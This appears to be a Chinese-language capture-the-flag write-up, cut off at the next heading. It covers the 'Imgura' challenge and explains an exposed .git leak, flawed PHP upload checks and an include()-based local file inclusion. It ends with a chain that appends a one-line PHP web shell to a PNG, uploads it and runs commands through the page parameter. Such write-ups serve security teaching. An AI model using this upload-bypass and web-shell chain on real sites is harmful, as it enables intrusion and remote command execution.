 # 0x02 Web Writeup

## Homework - Imgura [100]

- 題目網址：[https://imgura.chal.h4ck3r.quest/](https://imgura.chal.h4ck3r.quest/)
- 助教給的提示：`Information Leak`、`Upload`、`LFI` (老實說提示的滿兇的XD)
- Imgura 資料夾中的項目：
  - `leak_src.zip`：透過 `.git` 還原出的原始檔
  - `prev_commit_src`：還原上一個 Commit 的 Source Code
  - `Retro9IsMe.png.php`：攻擊 Payload
  - `Retro9IsMe.png`：偽裝圖片

看到提示其實就可以猜到幾個 Information Leak 的方向，有幾種可能如 Error 的 Debug 資訊沒關、robots.txt 裡或 source code 裡有些 Route 沒拿掉或沒辦法拿掉等等。但這題的 Information Leak 肇因於部署時是直接透過 git pull 後在專案根目錄直接起一個 Http Server，讓攻擊者可以存取 `.git` 資料夾還原出完整的 Source Code

![Imgura git config](./resources/Screen%20Shot%202021-10-28%20at%204.09.23%20PM.png)

透過 [Scrabble](https://github.com/denny0223/scrabble) 去還原後就可以得到整個網頁的原始碼。從 `git log` 中可以看到這個 Repo 最近的 commit 把 Dev Page 刪除了：

![Git src log](./resources/Screen%20Shot%202021-10-28%20at%204.14.37%20PM.png)

我們只要透過指令 `git reset HEAD^ --hard` 回到 First commit，就可以得到所有 Dev 的程式碼了。

從這些程式碼中可以看到，這個頁面「曾經」有一個 dev_test_page 的存在，裏面有 Upload 功能以及 Share Image 的功能。為什麼是說「曾經」呢？理論上這些檔案本不應該存在在根目錄了，但實際上切到 `https://imgura.chal.h4ck3r.quest/dev_test_page/?page=pages/share` 路徑上仍可以看到舊的頁面，這邊真的滿起怪的，也許是題目故意設計的吧。

![Imgura dev src page](./resources/Screen%20Shot%202021-10-28%20at%204.22.26%20PM.png)

總之分析過程式碼後可以得到兩個漏洞，分別是**上傳 Filter 實作上的缺陷**以及**HomePage 時做切換頁面的方法導致的 LFI 漏洞**。

Filter 功能的漏洞如下：

```php
# 這裏居然預設是取第二個 Split 元素，直接預設整個檔名中只會有一個 dot
# bypass 的方法只要在檔名中多加一個 .png 或其他可接受的 extension 就可了
$extension = strtolower(explode(".", $filename)[1]);

if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false) {
    die("Invalid file extension: $extension.");
}

# 這個 check 方法會 Check 檔案的第一個 File，假設今天這個檔案是由兩種不同的檔案接在一起的話，就可以 Bypass 掉這條限制
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$type = finfo_file($finfo, $_FILES['image_file']['tmp_name']);
finfo_close($finfo);
if (!in_array($type, ['image/png', 'image/jpeg'])) {
    die('Not an valid image.');
}

# 濾掉 <?php ....
# 這個就有一堆 Bypass 方法了，黑名單永遠是最不好的方法
$content = file_get_contents($_FILES['image_file']['tmp_name']);
if (stripos($content, "<?php") !== false) {
    die("Hacker?");
}
```

其他限制就滿簡單的如檔案大小、width、height 等等就滿簡單可以 Bypass 掉。

第二個漏洞來自於 index page 實作 router 的方法導致的 LFI:

```html
<div class="hero-body">
  <?php
  include ($_GET['page'] ?? 'pages/main') . ".php";
  ?>
</div>
```

所以最終的攻擊手法：

1. 在一個 legit 的 png (`Retro9IsMe.png`) 檔後新增一小段 php script (`<?=system($_GET["cmd"]);?>`)
2. 改檔名成 `Retro9IsMe.png.php`
3. 把檔案透過上傳功能上傳到伺服器
4. 把首頁 `page` query 改成檔案位置，並加上 cmd query 執行 Commmad
5. Navigator 後找到 Flag 檔案

## Homework - Screensaver [200]
